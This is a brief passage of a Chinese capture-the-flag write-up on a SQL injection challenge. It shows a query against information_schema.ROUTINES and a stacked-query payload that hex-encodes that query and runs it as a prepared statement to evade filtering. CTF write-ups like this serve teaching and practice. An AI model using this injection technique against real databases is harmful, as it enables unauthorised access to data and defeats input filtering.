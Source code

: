 换个思路，可能flag存进去又删库了。找找记录？

![227](/medias/show-sql/227.png)

```sql
# 查找在存储过程是否定义了flag
SELECT ROUTINE_DEFINITION FROM information_schema.ROUTINES
```

转成16进制，执行预处理sql语句，可以看到定义过程的flag。太强了，又有了奇怪的想法

```sql
user1';prepare a from 0x53454C45435420524F5554494E455F444546494E4954494F4E2046524F4D20696E666F726D6174696F6E5F736368656D612E524F5554494E4553;execute a;#
```
